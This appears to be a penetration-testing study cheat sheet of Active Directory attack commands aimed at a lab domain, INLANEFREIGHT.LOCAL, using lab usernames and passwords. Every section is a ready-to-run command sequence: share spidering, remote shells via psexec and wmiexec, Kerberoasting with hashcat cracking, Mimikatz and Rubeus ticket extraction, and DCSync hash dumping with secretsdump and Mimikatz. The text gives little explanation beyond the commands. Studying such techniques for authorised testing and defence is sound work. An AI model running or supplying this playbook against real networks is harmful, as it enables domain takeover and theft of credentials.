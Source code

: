 ### **Enumerating Security Controls**
1. Checking the Status of Defender with Get-MpComputerStatus: `Get-MpComputerStatus`
2. Using Get-AppLockerPolicy cmdlet: `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
3. PowerShell Constrained Language Mode: `$ExecutionContext.SessionState.LanguageMode`
4. Using Find-LAPSDelegatedGroups: `Find-LAPSDelegatedGroups`
5. Using Find-AdmPwdExtendedRights: `Find-AdmPwdExtendedRights`
6. Using Get-LAPSComputers: `Get-LAPSComputers`
### **Credentialed Enumeration - from Linux**
1. CME - Domain User Enumeration: `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users`
2. CME - Domain Group Enumeration: `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups`
3. CME - Logged On Users: `sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users`
4. CME Share Searching: `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares`
5. The module spider_plus will dig through each readable share on the host and list all readable files: `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'` When completed, CME writes the results to a JSON file located at /tmp/cme_spider_plus/<ip of host>.
6. SMBMap To Check Access: `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5`
7. Smbmap - Recursive List Of All Directories: `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only`
8. SMB NULL Session with rpcclient: `rpcclient -U "" -N 172.16.5.5`
9. To connect to a host with psexec.py, we need credentials for a user with local administrator privileges: `psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 `
10. Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation: `wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5 `
11. Windapsearch - Domain Admins: `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da`
12. Windapsearch - Privileged Users: `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU`
13. Executing BloodHound.py: `sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all`
### **Credentialed Enumeration - from Windows**
1. Load ActiveDirectory Module: `Import-Module ActiveDirectory`
2. Get Domain Info: `Get-ADDomain`
3. Get-ADUser: `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
4. Checking For Trust Relationships: `Get-ADTrust -Filter *`
5. Group Enumeration: `Get-ADGroup -Filter * | select name`
6. Detailed Group Info: `Get-ADGroup -Identity "Backup Operators"`
7. Group Membership: `Get-ADGroupMember -Identity "Backup Operators"`
8. Snaffler is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment: `Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data`
9. SharpHound: `.\SharpHound.exe -c All --zipfilename ILFREIGHT`
## **Kerberoasting - from Linux**
1. Listing SPN Accounts with GetUserSPNs.py: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend`
2. Requesting all TGS Tickets: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request `
3. Requesting a Single TGS ticket: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev`
4. Saving the TGS Ticket to an Output File: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs`
5. Cracking the Ticket Offline with Hashcat: `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt`
## **Kerberoasting - from Windows**
#### **Kerberoasting - Semi Manual method**
1. Enumerating SPNs with setspn.exe: `setspn.exe -Q */*`
2. Targeting a Single User:
    1. `Add-Type -AssemblyName System.IdentityModel`
    2. `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
3. Retrieving All Tickets Using setspn.exe: `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
4. Extracting Tickets from Memory with Mimikatz:
    1. `mimikatz # base64 /out:true`
    2. `mimikatz # kerberos::list /export`
5. Preparing the Base64 Blob for Cracking: `echo "<base64 blob>" |  tr -d \\n`
6. Placing the Output into a File as .kirbi: `cat encoded_file | base64 -d > sqldev.kirbi`
7. Extracting the Kerberos Ticket using kirbi2john.py: `python2.7 kirbi2john.py sqldev.kirbi`
8. Modifiying crack_file for Hashcat: `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`
9. Cracking the Hash with Hashcat: `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`
#### **Kerberoasting - Automated / Tool Based Route**
1. Using PowerView to Extract TGS Tickets: `Get-DomainUser * -spn | select samaccountname`
2. Using PowerView to Target a Specific User: `Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat`
3. Exporting All Tickets to a CSV File: `Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation`
4. Viewing the Contents of the .CSV File: `cat .\ilfreight_tgs.csv`
#### **Kerberoasting with Rubeus**
1. Using the /stats Flag: `.\Rubeus.exe kerberoast /stats`
2. Using the /nowrap Flag: `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`
3. creating an SPN account named testspn and using Rubeus to Kerberoast this specific user to test this out: `.\Rubeus.exe kerberoast /user:testspn /nowrap`
4. Checking with PowerView: `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes`
5. Use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket: `.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap`
## **DCSync**
1. Using Get-DomainUser to View user Group Membership: `Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl`
2. Using Get-ObjectAcl to Check adunn's Replication Rights:
    1.  `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"`
    2. `Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`
3. Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py: `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5`
4. Enumerating Further using Get-ADUser: `Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl`
5. Checking for Reversible Encryption Option using Get-DomainUser: `Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontro`
6. Using runas.exe: `runas /netonly /user:INLANEFREIGHT\adunn powershell`
7. Performing the Attack with Mimikatz:
    1. `.\mimikatz.exe`
    2. `privilege::debug`
    3. `lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`